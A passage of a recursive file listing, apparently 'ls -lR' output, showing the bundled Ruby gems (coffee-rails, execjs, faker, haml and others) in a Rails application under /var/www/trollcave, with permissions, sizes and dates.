-rw-r--r-- 1 rails rails  565 Sep 16  2016 controller_generator_test.rb
-rw-r--r-- 1 rails rails  557 Sep 16  2016 scaffold_generator_test.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 support
-rw-r--r-- 1 rails rails  547 Sep 16  2016 template_handler_test.rb
-rw-r--r-- 1 rails rails  385 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/test/support:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   20 Sep 16  2016 routes.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 site

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/test/support/site:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   20 Sep 16  2016 index.coffee

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-script-2.4.1:
total 20K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-script-2.4.1/lib:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 coffee_script.rb
-rw-r--r-- 1 rails rails   24 Sep 16  2016 coffee-script.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-script-source-1.9.1.1:
total 12K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-script-source-1.9.1.1/lib:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 coffee_script

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-script-source-1.9.1.1/lib/coffee_script:
total 280K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 268K Sep 16  2016 coffee-script.js
-rw-r--r-- 1 rails rails  136 Sep 16  2016 source.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/debug_inspector-0.0.2:
total 28K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  567 Sep 16  2016 debug_inspector.gemspec
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rwxr-xr-x  1 rails rails 1.8K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/debug_inspector-0.0.2/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 debug_inspector

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/debug_inspector-0.0.2/ext/debug_inspector:
total 84K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 debug_inspector.c
-rw-rw-r-- 1 rails rails  31K Sep 16  2016 debug_inspector.o
-rwxrwxr-x 1 rails rails  25K Sep 16  2016 debug_inspector.so
-rwxr-xr-x 1 rails rails  320 Sep 16  2016 extconf.rb
-rw-rw-r-- 1 rails rails 7.6K Sep 16  2016 Makefile
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.time

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/debug_inspector-0.0.2/lib:
total 44K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 debug_inspector
-rw-r--r-- 1 rails rails  120 Sep 16  2016 debug_inspector.rb
-rwxr-xr-x 1 rails rails  25K Sep 16  2016 debug_inspector.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/debug_inspector-0.0.2/lib/debug_inspector:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   46 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/execjs-2.6.0:
total 20K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 2.6K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/execjs-2.6.0/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 execjs
-rw-r--r-- 1 rails rails  108 Sep 16  2016 execjs.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/execjs-2.6.0/lib/execjs:
total 56K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  405 Sep 16  2016 disabled_runtime.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 duktape_runtime.rb
-rw-r--r-- 1 rails rails  760 Sep 16  2016 encoding.rb
-rw-r--r-- 1 rails rails 6.6K Sep 16  2016 external_runtime.rb
-rw-r--r-- 1 rails rails  886 Sep 16  2016 module.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 ruby_racer_runtime.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 ruby_rhino_runtime.rb
-rw-r--r-- 1 rails rails  927 Sep 16  2016 runtime.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 runtimes.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 support
-rw-r--r-- 1 rails rails   38 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/execjs-2.6.0/lib/execjs/support:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  623 Sep 16  2016 jscript_runner.js
-rw-r--r-- 1 rails rails  474 Sep 16  2016 jsc_runner.js
-rw-r--r-- 1 rails rails  18K Sep 16  2016 json2.js
-rw-r--r-- 1 rails rails  670 Sep 16  2016 node_runner.js
-rw-r--r-- 1 rails rails  474 Sep 16  2016 spidermonkey_runner.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0:
total 40K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.0K Sep 16  2016 History.txt
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 License.txt
-rw-r--r--  1 rails rails  16K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/lib:
total 32K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 extensions
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 faker
-rw-r--r-- 1 rails rails 6.8K Sep 16  2016 faker.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 helpers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 locales

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/lib/extensions:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  528 Sep 16  2016 array.rb
-rw-r--r-- 1 rails rails  139 Sep 16  2016 symbol.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/lib/faker:
total 100K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 address.rb
-rw-r--r-- 1 rails rails  340 Sep 16  2016 app.rb
-rw-r--r-- 1 rails rails  551 Sep 16  2016 avatar.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 bitcoin.rb
-rw-r--r-- 1 rails rails  263 Sep 16  2016 book.rb
-rw-r--r-- 1 rails rails  371 Sep 16  2016 business.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 code.rb
-rw-r--r-- 1 rails rails  990 Sep 16  2016 color.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 commerce.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 company.rb
-rw-r--r-- 1 rails rails  937 Sep 16  2016 date.rb
-rw-r--r-- 1 rails rails 1011 Sep 16  2016 finance.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 hacker.rb
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 internet.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 lorem.rb
-rw-r--r-- 1 rails rails  563 Sep 16  2016 name.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 number.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 phone_number.rb
-rw-r--r-- 1 rails rails  728 Sep 16  2016 slack_emoji.rb
-rw-r--r-- 1 rails rails  261 Sep 16  2016 team.rb
-rw-r--r-- 1 rails rails 1013 Sep 16  2016 time.rb
-rw-r--r-- 1 rails rails  286 Sep 16  2016 university.rb
-rw-r--r-- 1 rails rails   46 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/lib/helpers:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 char.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/lib/locales:
total 536K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  33K Sep 16  2016 de-AT.yml
-rw-r--r-- 1 rails rails  746 Sep 16  2016 de-CH.yml
-rw-r--r-- 1 rails rails  46K Sep 16  2016 de.yml
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 en-au-ocker.yml
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 en-AU.yml
-rw-r--r-- 1 rails rails  895 Sep 16  2016 en-BORK.yml
-rw-r--r-- 1 rails rails  941 Sep 16  2016 en-CA.yml
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 en-GB.yml
-rw-r--r-- 1 rails rails 8.7K Sep 16  2016 en-IND.yml
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 en-NEP.yml
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 en-UG.yml
-rw-r--r-- 1 rails rails 7.5K Sep 16  2016 en-US.yml
-rw-r--r-- 1 rails rails  76K Sep 16  2016 en.yml
-rw-r--r-- 1 rails rails  22K Sep 16  2016 es.yml
-rw-r--r-- 1 rails rails  11K Sep 16  2016 fa.yml
-rw-r--r-- 1 rails rails  22K Sep 16  2016 fr.yml
-rw-r--r-- 1 rails rails  15K Sep 16  2016 it.yml
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 ja.yml
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 ko.yml
-rw-r--r-- 1 rails rails 6.0K Sep 16  2016 nb-NO.yml
-rw-r--r-- 1 rails rails  16K Sep 16  2016 nl.yml
-rw-r--r-- 1 rails rails  42K Sep 16  2016 pl.yml
-rw-r--r-- 1 rails rails 8.4K Sep 16  2016 pt-BR.yml
-rw-r--r-- 1 rails rails  27K Sep 16  2016 ru.yml
-rw-r--r-- 1 rails rails  52K Sep 16  2016 sk.yml
-rw-r--r-- 1 rails rails 6.8K Sep 16  2016 sv.yml
-rw-r--r-- 1 rails rails  33K Sep 16  2016 uk.yml
-rw-r--r-- 1 rails rails 5.4K Sep 16  2016 vi.yml
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 zh-CN.yml
-rw-r--r-- 1 rails rails 6.8K Sep 16  2016 zh-TW.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/faker-1.5.0/test:
total 144K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_array_sample_method_compat.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_avatar.rb
-rw-r--r-- 1 rails rails  609 Sep 16  2016 test_en_au_ocker_locale.rb
-rw-r--r-- 1 rails rails  439 Sep 16  2016 test_en_ca_locale.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_en_locale.rb
-rw-r--r-- 1 rails rails  681 Sep 16  2016 test_en_ug_locale.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 test_en_us_locale.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_es_locale.rb
-rw-r--r-- 1 rails rails  234 Sep 16  2016 test_faker_app.rb
-rw-r--r-- 1 rails rails  395 Sep 16  2016 test_faker_bitcoin.rb
-rw-r--r-- 1 rails rails  391 Sep 16  2016 test_faker_book.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_faker_business.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_faker_city.rb
-rw-r--r-- 1 rails rails  619 Sep 16  2016 test_faker_code.rb
-rw-r--r-- 1 rails rails  974 Sep 16  2016 test_faker_color.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_faker_commerce.rb
-rw-r--r-- 1 rails rails  728 Sep 16  2016 test_faker_company.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 test_faker_date.rb
-rw-r--r-- 1 rails rails  723 Sep 16  2016 test_faker_hacker_talk.rb
-rw-r--r-- 1 rails rails 3.5K Sep 16  2016 test_faker_internet.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 test_faker_lorem.rb
-rw-r--r-- 1 rails rails  390 Sep 16  2016 test_faker_name.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 test_faker_number.rb
-rw-r--r-- 1 rails rails  713 Sep 16  2016 test_faker.rb
-rw-r--r-- 1 rails rails  951 Sep 16  2016 test_faker_slack_emoji.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_faker_street.rb
-rw-r--r-- 1 rails rails  440 Sep 16  2016 test_faker_team.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 test_faker_time.rb
-rw-r--r-- 1 rails rails  371 Sep 16  2016 test_faker_university.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_flexible.rb
-rw-r--r-- 1 rails rails  398 Sep 16  2016 test_helper.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_locale.rb
-rw-r--r-- 1 rails rails  826 Sep 16  2016 test_pl_locale.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_uk_locale.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/globalid-0.3.6:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/globalid-0.3.6/lib:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 global_id
-rw-r--r-- 1 rails rails  202 Sep 16  2016 global_id.rb
-rw-r--r-- 1 rails rails   48 Sep 16  2016 globalid.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/globalid-0.3.6/lib/global_id:
total 36K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 global_id.rb
-rw-r--r-- 1 rails rails  545 Sep 16  2016 identification.rb
-rw-r--r-- 1 rails rails 7.1K Sep 16  2016 locator.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 signed_global_id.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 uri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/globalid-0.3.6/lib/global_id/uri:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 6.0K Sep 16  2016 gid.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7:
total 132K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails  44K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 4.9K Sep 16  2016 FAQ.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails 3.4K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 5.5K Sep 16  2016 README.md
-rw-r--r--  1 rails rails  37K Sep 16  2016 REFERENCE.md
drwxrwxr-x  9 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  666 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  189 Sep 16  2016 haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 haml
-rw-r--r-- 1 rails rails  665 Sep 16  2016 haml.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/lib/haml:
total 188K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  12K Sep 16  2016 buffer.rb
-rwxr-xr-x 1 rails rails  19K Sep 16  2016 compiler.rb
-rw-r--r-- 1 rails rails 9.0K Sep 16  2016 engine.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 error.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 exec.rb
-rw-r--r-- 1 rails rails  15K Sep 16  2016 filters.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 helpers
-rwxr-xr-x 1 rails rails  21K Sep 16  2016 helpers.rb
-rw-r--r-- 1 rails rails 9.8K Sep 16  2016 options.rb
-rw-r--r-- 1 rails rails  25K Sep 16  2016 parser.rb
-rw-r--r-- 1 rails rails  558 Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 sass_rails_filter.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 template
-rw-r--r-- 1 rails rails  931 Sep 16  2016 template.rb
-rwxr-xr-x 1 rails rails  14K Sep 16  2016 util.rb
-rw-r--r-- 1 rails rails   36 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/lib/haml/helpers:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 action_view_extensions.rb
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 action_view_mods.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 action_view_xss_mods.rb
-rw-r--r-- 1 rails rails  585 Sep 16  2016 safe_erubis_template.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 xss_mods.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/lib/haml/template:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  418 Sep 16  2016 options.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 plugin.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test:
total 152K
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  62K Sep 16  2016 engine_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 erb
-rw-r--r-- 1 rails rails 7.8K Sep 16  2016 filters_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 gemfiles
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 haml-spec
-rw-r--r-- 1 rails rails  18K Sep 16  2016 helper_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 markaby
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 mocks
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 parser_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 results
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates
-rw-r--r-- 1 rails rails 9.6K Sep 16  2016 template_test.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_helper.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 util_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/erb:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 action_view.erb
-rw-r--r-- 1 rails rails  291 Sep 16  2016 _av_partial_1.erb
-rw-r--r-- 1 rails rails  245 Sep 16  2016 _av_partial_2.erb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 standard.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/gemfiles:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   92 Sep 16  2016 Gemfile.rails-3.0.x
-rw-r--r-- 1 rails rails   92 Sep 16  2016 Gemfile.rails-3.1.x
-rw-r--r-- 1 rails rails   91 Sep 16  2016 Gemfile.rails-3.2.x
-rw-r--r-- 1 rails rails  109 Sep 16  2016 Gemfile.rails-4.0.x

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/haml-spec:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  484 Sep 16  2016 LICENSE
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 lua_haml_spec.lua
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 perl_haml_test.pl
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 README.md
-rw-r--r-- 1 rails rails  831 Sep 16  2016 ruby_haml_test.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 tests.json

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/markaby:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 standard.mab

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/mocks:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  120 Sep 16  2016 article.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/results:
total 80K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  303 Sep 16  2016 content_for_layout.xhtml
-rw-r--r-- 1 rails rails  124 Sep 16  2016 eval_suppressed.xhtml
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 helpers.xhtml
-rw-r--r-- 1 rails rails  401 Sep 16  2016 helpful.xhtml
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 just_stuff.xhtml
-rw-r--r-- 1 rails rails  144 Sep 16  2016 list.xhtml
-rw-r--r-- 1 rails rails  327 Sep 16  2016 nuke_inner_whitespace.xhtml
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 nuke_outer_whitespace.xhtml
-rw-r--r-- 1 rails rails  677 Sep 16  2016 original_engine.xhtml
-rw-r--r-- 1 rails rails  154 Sep 16  2016 partial_layout_erb.xhtml
-rw-r--r-- 1 rails rails  161 Sep 16  2016 partial_layout.xhtml
-rw-r--r-- 1 rails rails  170 Sep 16  2016 partials.xhtml
-rw-r--r-- 1 rails rails   20 Sep 16  2016 render_layout.xhtml
-rw-r--r-- 1 rails rails  879 Sep 16  2016 silent_script.xhtml
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 standard.xhtml
-rw-r--r-- 1 rails rails  553 Sep 16  2016 tag_parsing.xhtml
-rw-r--r-- 1 rails rails  169 Sep 16  2016 very_basic.xhtml
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 whitespace_handling.xhtml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-4.0.7/test/templates:
total 136K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 action_view.haml
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 action_view_ugly.haml
-rw-r--r-- 1 rails rails  221 Sep 16  2016 _av_partial_1.haml
-rw-r--r-- 1 rails rails  226 Sep 16  2016 _av_partial_1_ugly.haml
-rw-r--r-- 1 rails rails  184 Sep 16  2016 _av_partial_2.haml
-rw-r--r-- 1 rails rails  189 Sep 16  2016 _av_partial_2_ugly.haml
-rw-r--r-- 1 rails rails  125 Sep 16  2016 breakage.haml
-rw-r--r-- 1 rails rails   85 Sep 16  2016 content_for_layout.haml
-rw-r--r-- 1 rails rails  139 Sep 16  2016 eval_suppressed.haml
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 helpers.haml
-rw-r--r-- 1 rails rails  309 Sep 16  2016 helpful.haml
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 just_stuff.haml
-rw-r--r-- 1 rails rails   27 Sep 16  2016 _layout.erb
-rw-r--r-- 1 rails rails   63 Sep 16  2016 _layout_for_partial.haml
-rw-r--r-- 1 rails rails   93 Sep 16  2016 list.haml
-rw-r--r-- 1 rails rails  308 Sep 16  2016 nuke_inner_whitespace.haml
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 nuke_outer_whitespace.haml
-rw-r--r-- 1 rails rails  460 Sep 16  2016 original_engine.haml
-rw-r--r-- 1 rails rails  105 Sep 16  2016 _partial.haml
-rw-r--r-- 1 rails rails   33 Sep 16  2016 partialize.haml
-rw-r--r-- 1 rails rails  134 Sep 16  2016 partial_layout_erb.erb
-rw-r--r-- 1 rails rails  118 Sep 16  2016 partial_layout.haml
-rw-r--r-- 1 rails rails  133 Sep 16  2016 partials.haml
-rw-r--r-- 1 rails rails   41 Sep 16  2016 render_layout.haml
-rw-r--r-- 1 rails rails  694 Sep 16  2016 silent_script.haml
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 standard.haml
